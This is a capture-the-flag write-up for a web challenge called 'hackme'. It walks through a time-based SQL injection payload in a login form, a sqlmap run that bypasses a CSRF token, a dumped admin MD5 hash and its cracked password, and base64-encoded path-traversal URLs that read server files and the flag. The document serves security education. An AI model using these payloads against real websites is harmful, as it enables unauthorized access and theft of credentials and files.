



# Writeup for hackme

> Solves: 48
> 
> Hack me, please

The website contain only login form, without any other suspected content, so first impulse, sql injection.



We have seen only one returned value `User Name or Password incorrect` if sql query was correct. Checked time based SQLi in login input `a' OR if(1=1, sleep(10), false) OR 'a` positive, because execute this taken ~10 seconds.
We had assumed that was blind SQLi. (After CTF, another teams has shown that it was simple SQLi, blindSQLi was not necessary)

We have not had a lot of time, so we use sqlmap. Form had csrf token `<input type='hidden' name='user_token' value='40dbd5c24bcba5a579557884b60e50d8' />`, but that was not a problem for sqlmap with two extra params `--csrf-token="user_token" --csrf-url="http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/"`

In a few seconds, we got, what we need. 

```
Database: hack.me
Table: user
[1 entry]
+--------+-----------+----------+----------------------------------+
| userid | sessionid | username | password                         |
+--------+-----------+----------+----------------------------------+
| 1      | aaa       | admin    | 26a340b11385ebc2db3b462ec2fdfda4 |
+--------+-----------+----------+----------------------------------+
```

MD5 existed in web databases



After login for `admin` `catchme8`, unfortunately not came out flag, but interesting dashboard.



We did notice with great interest, that one menu link `help.pdf` had this route: `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=aGVscC5wZGY`. `aGVscC5wZGY` after base64 decode was `help.pdf`, looked like LFI. 

We encode `../index.php` to base64 `Li4vaW5kZXgucGhw`, open `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vaW5kZXgucGhw`, and get source of `index.php` into downloaded .pdf file.

One line in `index.php` was `shpaMessagePush("error: saved in sensitive_log_881027.txt");`. Interestingly, we again encode `../sensitive_log_881027.txt` to `Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0` and get this file by url `http://ctf.sharif.edu:35455/chal/hackme/677aa21d5725bb62/file.php?page=Li4vc2Vuc2l0aXZlX2xvZ184ODEwMjcudHh0`. 

Downloaded file contained FLAG
